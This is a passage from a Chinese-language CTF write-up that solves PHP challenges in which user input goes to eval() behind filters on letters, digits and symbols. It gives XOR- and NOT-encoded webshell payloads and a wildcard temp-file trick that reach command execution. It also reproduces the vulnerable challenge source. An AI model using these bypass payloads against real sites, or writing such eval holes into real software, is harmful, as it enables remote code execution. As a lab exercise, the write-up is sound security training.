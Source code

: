 ``` PHP
        die("Not Allowed.");
    }
    @eval($code);
}
?>
```
### 解法一
很明显，我们上面提到的不用\_写shell的方法也适用于本题，直接对%a0传参cat flag.php就行
### 解法二
当然，利用异或，我们也可以构造出类似的Payload:
```php
?><?=`{${~"!'%("^"~``|"}[%a0]}`?>
也即:
?><?=`{${"!%27%25("^"%7e%60%60%7c"}[%a0]}`?>
```
### 解法三
解法一和解法二属于威力大，可直接任意代码执行。但在此题中由于有hint的存在，我们可以不必任意代码执行，而只是执行getFlag()即可。
利用异或，有Payload:
``` php
$\{"`\{\{\{"^"?<>/"\}['+']();&+=getFlag
自行忽略这里面的\，垃圾Jekyll渲染总是会出错
```
同样利用取反也可以执行代码，不再赘述。
## 题目二
```php
<?php 
include 'flag.php';
if(isset($_GET['code']))
{
    $code=$_GET['code'];
    if(strlen($code)>35){
    die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code))
    {
        die("NO.");
    }
    @eval($code);
}
else
{
    highlight_file(__FILE__);
}
//$hint="php function getFlag() to get flag";
?>
```
### 解法一
这道题很明显可以利用上面所讲的
```php
. /???/????????[@-[]
```
来执行命令，毕竟getshell了还愁没有flag?就不再介绍此种方法